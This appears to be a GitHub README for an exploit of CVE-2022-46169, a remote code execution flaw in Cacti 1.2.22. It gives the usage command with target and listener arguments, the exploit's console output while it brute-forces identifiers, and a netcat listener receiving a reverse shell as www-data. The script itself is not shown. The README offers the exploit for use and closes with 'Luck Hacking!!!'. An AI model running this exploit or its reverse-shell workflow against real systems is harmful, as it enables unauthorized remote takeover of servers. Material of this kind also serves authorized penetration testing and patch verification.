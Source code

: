 # CVE-2022-46169-CACTI-1.2.22
This is a exploit of CVE-2022-46169 to cacti 1.2.22. This exploit allows through an RCE to obtain a reverse shell on your computer.
# Requirement
optparse
requests
# Usage
On a port on your machine listen and then run the exploit as follows.
```bash
python3 CVE-2022-46169.py  -u http://10.129.216.153 --LHOST=10.10.16.23 --LPORT=443
Checking...
The target is vulnerable. Exploiting...
Bruteforcing the host_id and local_data_ids
Bruteforce Success!!
```
And the reverse shell should appear on the listening port
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.216.153] 36828
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$
```
Luck Hacking!!!
